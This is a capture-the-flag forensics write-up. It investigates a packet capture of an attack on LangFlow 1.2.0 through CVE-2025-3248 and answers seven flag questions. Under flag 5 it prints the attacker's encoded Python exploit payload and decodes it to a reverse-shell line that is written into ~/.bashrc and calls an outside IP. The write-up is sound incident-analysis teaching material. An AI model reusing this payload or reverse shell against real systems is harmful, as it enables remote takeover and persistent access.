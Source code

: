 # Watchtower Of Mists

Flag 1: What is the LangFlow version in use? (e.g. 1.5.7)

```shell
$ strings capture.pcap | grep version
GET /api/v1/version HTTP/1.1
9{"version":"1.2.0","main_version":"1.2.0","package":"Langflow"}
```

Flag 2: What is the CVE assigned to this LangFlow vulnerability? (e.g. CVE-2025-12345)

Google for `langflow 1.2.0 cve` leads to [CVE-2025-3248](https://nvd.nist.gov/vuln/detail/CVE-2025-3248)

Flag 3: What is the name of the API endpoint exploited by the attacker to execute commands on the system? (e.g. /api/v1/health)

In [CVE-2025-3248](https://nvd.nist.gov/vuln/detail/CVE-2025-3248), the vulnerable endpoint is `/api/v1/validate/code`.

Flag 4: What is the IP address of the attacker? (format: x.x.x.x)

In Wireshark, filter by http, we find the source IP address of HTTP requests: `188.114.96.12`.

Flag 5: The attacker used a persistence technique, what is the port used by the reverse shell? (e.g. 4444)

In the posted body, there is a Python code:

```python
def run(cd=exec(__import__('zlib').decompress(__import__('base64').b64decode('eJwNyE0LgjAYAOC/MnZSKguNqIOCpAdDK8IIT0Pnyza1JvsIi+i313N8VC00oHSiMBohHw4h4j5KZQhxsLbNqCQFrbHrUQ60J9Ka0RoHA+USUZ+x/Nazs6hY7l+GVuxWVRA/i7KY8i62x3dmi/02OCXXV5bEs0OXhp+m1rBZo8WiBSpbQFGEvkvvv1xRPEeawzCEpbLguj8DMjVN')).decode())): pass
```

Dump the generated code:

```python
>>> (__import__('zlib').decompress(__import__('base64').b64decode('eJwNyE0LgjAYAOC/MnZSKguNqIOCpAdDK8IIT0Pnyza1JvsIi+i313N8VC00oHSiMBohHw4h4j5KZQhxsLbNqCQFrbHrUQ\
60J9Ka0RoHA+USUZ+x/Nazs6hY7l+GVuxWVRA/i7KY8i62x3dmi/02OCXXV5bEs0OXhp+m1rBZo8WiBSpbQFGEvkvvv1xRPEeawzCEpbLguj8DMjVN')).decode())
'raise Exception(__import__("subprocess").check_output("echo c2ggLWkgPiYgL2Rldi90Y3AvMTMxLjAuNzIuMC83ODUyIDA+JjE=|base64 --decode >> ~/.bashrc", shell=True))'
```

Decode:

```shell
$ echo c2ggLWkgPiYgL2Rldi90Y3AvMTMxLjAuNzIuMC83ODUyIDA+JjE=|base64 --decode
sh -i >& /dev/tcp/131.0.72.0/7852 0>&1
```

Flag 6: What is the system machine hostname? (e.g. server01)

In `strings capture.pcap | grep HOSTNAME=`, we find `HOSTNAME=aisrv01` in output.

Flag 7: What is the Postgres password used by LangFlow? (e.g. Password123)

In `strings capture.pcap | grep postgres`, find `LANGFLOW_DATABASE_URL=postgresql://langflow:LnGFlWPassword2025@postgres:5432/langflow` in output.
